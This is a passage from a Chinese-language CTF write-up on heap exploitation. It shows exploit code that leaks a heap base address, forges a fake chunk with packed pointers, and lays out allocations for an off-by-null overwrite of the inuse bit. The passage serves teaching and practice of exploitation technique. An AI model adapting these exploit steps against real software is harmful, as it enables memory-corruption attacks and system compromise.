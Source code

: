 ```plain
}
```

### 详细流程

先泄露堆地址

```plain
ru('and this line will make the game easier\n')
heap_base=int(r(14),16)-0x2a0
leak('heap_base ',heap_base)
```

[![](assets/1701606615-08019e34b4dc48bf9b45635639b66058.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213539-dd8480de-83bb-1.png)  
chunk0 从 fd 位置开始伪装，然后后续 chunk1 和 chunk2

```plain
add(0x418,p64(0)+p64(0x1880)+p64(heap_base+0x2c0)+p64(heap_base+0x2c0)) #idx0
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x418,'aaaa')
add(0x418,'aaaa') #idx5
add(0x4f8,'bbbb')
add(0x4f8,'bbbb')
```

[![](assets/1701606615-e079b0bd4514d43c58df728a83fbcedd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213616-f36778a2-83bb-1.png)  
用 off by null 改 inuse，伪装 chunk
